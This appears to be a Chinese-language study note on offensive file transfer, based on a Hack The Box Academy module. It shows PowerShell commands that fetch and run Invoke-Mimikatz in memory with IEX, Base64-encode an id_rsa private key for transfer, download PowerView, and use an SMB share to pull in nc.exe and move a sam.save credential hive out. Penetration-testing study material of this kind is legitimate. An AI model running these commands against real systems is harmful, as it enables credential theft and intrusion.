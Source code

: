 # 文件传输

## 一、Windows 文件传输

> [必看原文](https://academy.hackthebox.com/module/24/section/160) 短一截

### 1. Powershell Base64 编码和解码

```shell
# 在传输文件后，我们需要检查文件上传是否正确, 我们可以使用 MD5 查看
md5sum id_rsa
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5

# 将文件进行编码后传输
cat id_rsa |base64 -w 0;echo
[IO.File]::WriteAllBytes("Target Location", [Convert]::FromBase64String("BASE64 String"))
```

### 2. Powershell 网络下载

> * [Net.WebClient](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-5.0)
> * [IEX](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.2)
> * [Invoke-WebRequest](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.2)
> * [Powershell 下载命令详细列表](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

```shell
# 文件下载
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
 (New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'PowerViewAsync.ps1')
 
# 无文件方法
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX

# 文件下载
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

### 3. SMB 下载

```shell
# 使用 Impacket 中的smbserver.py 创建 SMB 服务器
sudo impacket-smbserver share -smb2support /tmp -user test -password test

# 从 SMB 服务器复制文件
copy \\192.168.220.133\share\nc.exe
# 移动文件
move sam.save \\192.168.220.133\
# 使用用户名和密码挂载 SMB 服务器
net use n: \\192.168.220.133\share /user:test test
```
